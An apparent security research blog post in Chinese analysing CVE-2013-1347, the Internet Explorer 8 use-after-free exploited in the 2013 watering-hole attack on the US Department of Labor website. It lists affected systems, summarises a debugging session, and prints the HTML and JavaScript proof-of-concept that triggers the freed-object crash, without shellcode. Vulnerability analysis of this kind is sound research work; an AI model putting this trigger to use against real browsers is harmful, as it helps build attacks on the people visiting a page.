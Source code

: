 ```yaml
---
title: CVE-2013-1347 漏洞研究
toc: true
categories: Vulnerability Investigation
abbrlink: 967c6bc6
date: 2025-03-15 18:53:57
updated: 2025-03-15 18:53:57
---
```


2013 年 5 月 1 日美国劳工部遭受到「水坑」型 APT 攻击，该攻击的主要利用漏洞即为 CVE-2013-1347。美国劳工部网站因被 APT 攻击挂马而导致每个访问该网站的受害者在本地加载 mshtml.dll 和 jscript.dll 两个动态链接库对网页内容进行解析时触发恶意脚本

影响范围：

Microsoft IE 8 running on
Microsoft Windows Server 2003 SP1/SP2
Microsoft Windows Vista SP2
Microsoft Windows XP SP2/SP3

## 漏洞分析

开启 hpa 后调试运行 IE 8 并打开 PoC，选择允许阻止的内容后因 ecx 指向非法地址触发 Access Violation 异常而崩溃，查看 ecx 指向的非法地址所属堆块信息发现该堆块已被 free。栈回溯查看崩溃时栈顶返回地址前的指令，发现为虚函数调用指令。调试这边只能先开摆了从 PoC 入手。

> 查看堆块信息时会发现它曾被 CGenericElement 对象的析构方法释放过，但这一漏洞的成因与该对象没什么关系，哪怕 CVE-2013-1347 被习惯称作 CGenericElement UAF 漏洞

```html
<!doctype html> <!-- required -->
<HTML>
<head>
</head>
<body>
<ttttt:whatever id="myanim"/><!-- required format -->
<script>
    f0=document.createElement('span');
    document.body.appendChild(f0);

    f1=document.createElement('span');
    document.body.appendChild(f1);

    f2=document.createElement('span');
    document.body.appendChild(f2);

    document.body.contentEditable="true";
    f2.appendChild(document.createElement('datalist')); //has to be a data list
    f1.appendChild(document.createElement('table'));    //has to be a table

    try{
            f0.offsetParent=null;                       //required
    }catch(e){  }

    f2.innerHTML="";                                    //required
    f0.appendChild(document.createElement('hr'));       //required
    f1.innerHTML="";                                    //required
    CollectGarbage();
 </script>
</body>
</html>
```
